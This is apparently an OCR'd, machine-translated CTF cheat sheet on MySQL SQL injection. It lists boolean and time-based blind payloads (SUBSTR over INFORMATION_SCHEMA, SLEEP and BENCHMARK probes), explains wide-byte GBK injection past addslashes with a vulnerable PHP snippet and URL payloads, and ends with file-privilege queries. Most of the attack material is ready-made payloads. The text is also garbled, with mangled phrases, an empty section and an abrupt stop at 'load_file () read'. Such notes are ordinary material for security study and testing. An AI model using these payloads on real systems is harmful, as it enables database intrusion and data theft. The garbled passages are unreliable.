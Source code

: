 ' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #

...

script

Script use, visible: ctf blind using script points:

Pay attention to the coding problem
Pay attention to the exception handling
Pay attention to the border processing
Delayed blinds - based on time
Generally use a few functions. The effect of using these is to delay the operation of mysql, and thus detect the situation with the usual difference:
SLEEP (n) to stop mysql n seconds
BENCHMARK (count, expr) Repeats the countTimes occurrence of the expression expr

Some notes:
The use of time-based blinds is not as accurate as it depends on the current network environment.
Time delay is best not to exceed 30 seconds, otherwise easily lead to mysql API connection timeout.
When the page does not see any significant change, then consider the choice of using delayed injection.
Detection method
1 OR SLEEP(25)=0 LIMIT 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #

payload

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)

...
Wide byte injection
principle
Have the following php code:
...
mysql_query("SET NAMES 'gbk'");
....
$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
addslashes () adds a single or double quotation mark \. When mysql GBK character set, it will be two characters as a Chinese character, such as% df% 5c for transport. We enter name=root%df%27,% the server will appear the following conversion: root%df%27-> root%df%5c%27-> root運'.
More can be seen: Character Encoding and SQL Injection in White Box Audit
payload
Eat\
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
...
After being addedlashes,% XX% 5c appears. If the ascii code value of the current character is greater than 128, it will be considered as a wide character, even if it is not a Chinese character. So not only% df can eat '\'.
use\
index.php?name=%**%5c%5c%27
Secondary injection
File read and write
Use sql injection can import export file, get the file content, or write to the file content. Query user read and write permissions:
SELECT file_priv FROM mysql.user WHERE user = 'username';
load_file () read